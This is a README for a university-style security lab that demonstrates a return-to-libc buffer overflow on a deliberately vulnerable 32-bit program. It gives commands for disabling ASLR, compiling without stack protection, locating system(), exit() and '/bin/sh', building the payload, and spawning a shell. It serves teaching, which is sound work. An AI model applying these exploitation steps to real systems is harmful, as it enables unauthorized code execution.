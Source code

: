 # Lab 2 — Libc-Attack

## Overview

This project implements a classic stack-based buffer overflow to demonstrate a **Return-to-libc (ret2libc)** attack on a 32-bit Linux binary with a non-executable stack (NX bit).

## Prerequisites

- 32-bit Linux VM (lab environment)
- `gcc` with multilib support (if building 32-bit on a 64-bit host)
- Python 3
- GDB (with **peda** or a similar helper is helpful)
- Example seed image: https://seedsecuritylabs.org/lab_env.html

---

## Repository files

| File | Description |
|------|-------------|
| `retlib.c` | Vulnerable program with a stack-based buffer overflow. |
| `envaddr.c` | Helper utility to print the address of an environment variable. |
| `exploit.py` | Python script to generate the `badfile` payload. |
| `badfile` | Binary payload file generated by `exploit.py`. |
| `README.md` | This documentation. |
| `images/` | Screenshots of the exploitation process. |

### Image references

![Output of envaddr helper](images/01-envaddr.png)

![Hexdump of badfile payload](images/02-hexdump.png)

---

## Exploitation flow

The attack bypasses the non-executable stack by overwriting the saved return address to point to the `system()` function in `libc`.

**High-level steps:**

1. Disable ASLR (optional for lab reproducibility).
2. Find addresses for `/bin/sh`, `system()`, and `exit()`.
3. Construct a payload that overwrites the saved return address and places arguments for `system()` on the stack.
4. Run the vulnerable program with the crafted payload to spawn a shell.

### Detailed steps

1. **Disable ASLR (for repeatable addresses in this lab)**

   > **Warning:** Disabling ASLR affects system security. Do this only in a controlled lab VM and revert afterward.

   ```bash
   # As root
   echo 0 > /proc/sys/kernel/randomize_va_space
   ```

2. **Set up environment and find target addresses**

   ```bash
   # Make sure /bin/sh is set as an environment variable (used by envaddr)
   export MYSHELL=/bin/sh

   # Compile and run envaddr (see section "How to compile")
   ./envaddr
   # Example output: Address: 0xbfffff01
   ```

   Use GDB (or `readelf`/`objdump` on libc) to find `system()` and `exit()` addresses in the process's libc mapping. Example using GDB:

   ```gdb
   gdb -q ./retlib
   (gdb) run < badfile
   (gdb) p (void*) system
   (gdb) p (void*) exit
   ```

   You may also attach to a running process or inspect `/proc/<pid>/maps` to locate libc.

3. **Construct the payload**

   The `exploit.py` script produces a `badfile` that overflows the vulnerable buffer and overwrites the saved return address.

   **Typical payload layout (32-bit, little-endian):**

   ```
   [ padding up to saved EBP ]
   [ saved EBP (optional placeholder) ]
   [ system_addr (overwritten return address) ]
   [ exit_addr   (next return address, used by system as cleanup) ]
   [ sh_addr     (pointer to "/bin/sh" string) ]
   ```

   This layout ensures that when the function returns it jumps to `system()` with the address of `/bin/sh` as its argument. After `system()` returns, control goes to `exit()`.

4. **Execute the exploit**

   ```bash
   # Generate badfile (after updating exploit.py with discovered addresses)
   python3 exploit.py

   # Run vulnerable program (it reads badfile and triggers overflow)
   ./retlib
   ```

   If successful, `system("/bin/sh")` runs and spawns a shell.

---

## How to compile (examples)

1. Compile 32-bit vulnerable binary and helper:

```bash
# Compile retlib as 32-bit disabling stack protector and keeping stack non-executable
gcc -m32 -o retlib retlib.c -fno-stack-protector -z noexecstack

# Compile envaddr helper
gcc -m32 -o envaddr envaddr.c
```

> Note: Some toolchains require additional packages (multilib). On Debian/Ubuntu you may need `gcc-multilib` and `libc6-dev-i386`.

---

## (Added) Exact compile commands — alternative placement

```bash
# Compile retlib and envaddr for 32-bit
gcc -m32 -fno-stack-protector -z noexecstack -o retlib retlib.c
gcc -m32 -o envaddr envaddr.c
```

> **Security note:** `-z noexecstack` marks the binary as not requiring an executable stack (demonstrates ret2libc bypass of NX). Do this **only** in a controlled lab VM.

---

## (Added) Disable / re-enable ASLR (for reproducibility)

Disabling ASLR makes addresses repeatable in this lab. Re-enable it after testing.

```bash
# Disable (lab only; requires root)
sudo sysctl -w kernel.randomize_va_space=0

# Re-enable when done
sudo sysctl -w kernel.randomize_va_space=2
```

---

## (Added) `envaddr` usage to get `/bin/sh` address

```bash
export MYSHELL=/bin/sh
./envaddr
# Example output: Address: 0xbfffff01
# Use this value as sh_addr.
```

---

## Example workflow & output (illustrative)

```bash
export MYSHELL=/bin/sh
./envaddr
# Example: Address: 0xbfffff01

# After updating exploit.py with discovered addresses
python3 exploit.py
hexdump -C badfile | tail
# ... hexdump shows the little-endian addresses for system, exit, and "/bin/sh"

./retlib
# Program prints buffer addresses and, on success, you get a shell
whoami   # -> seed
echo $?  # -> 0
```

---

